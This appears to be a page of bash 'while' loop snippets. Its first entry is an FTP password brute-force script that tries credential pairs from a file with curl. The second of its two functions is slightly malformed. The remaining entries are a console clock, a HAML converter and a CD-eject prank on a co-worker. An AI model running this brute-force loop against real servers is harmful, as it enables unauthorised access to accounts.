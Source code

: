 # while

### Bruteforce two ftp accounts at once

```sh
#!/bin/bash
# Author: wuseman
# Desc: Bruteforce 2 accounts at once

okMSG() {
    echo -e "[\e[1;32m*\e[0m] $*"
}

errMSG() {
    echo -e "[\e[1;31m*\e[0m] $*"
}


1() {
    curl ftp://host:port -u $line &> /dev/null
    [[ $? = "0" ]] &&  okMSG "Cracked password for $line" || errMSG "Bad password for $line"
}

2() {
    curl ftp://host:port -u $line1 &> /dev/null -u $line1 &> /dev/null
    [[ $? = "0" ]] &&  okMSG "Cracked password for $line1" || errMSG "Bad password for $line1"
}

while 
	read line;read line1; 
   	do 
    1;2;sleep 0.1;
done < test
```


### Put a console clock in top right corner
```sh
while sleep 1;do tput sc;tput cup 0 $(($(tput cols)-29));date;tput rc;done &
```

### Convert HAML to HTML on file change
```sh
while true; do filechanged=$(inotifywait -e close_write,moved_to format "%w%f" .); haml $filechanged -q no-escape-attrs > ${filechanged/.haml/.html}; done
```

### Open/Close your co-worker's cd player
```sh
while true; do eject && sleep `expr $RANDOM % 5` && eject -t; done;
```
